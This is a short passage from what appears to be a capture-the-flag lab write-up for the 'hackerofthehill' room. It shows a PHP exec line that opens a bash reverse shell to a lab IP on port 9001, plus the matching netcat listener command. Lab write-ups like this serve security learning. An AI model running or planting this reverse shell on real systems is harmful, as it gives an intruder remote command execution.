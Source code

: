 ![img](/assets/thm_hackerofthehill/bg_2_medium.png)

then we can get any shell from this: 
```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.2.47.251/9001 0>&1' ");
```
![img](/assets/thm_hackerofthehill/bg_3_medium.png)

then `nc -lvnp 9001`.

![img](/assets/thm_hackerofthehill/bg_4_medium.png)
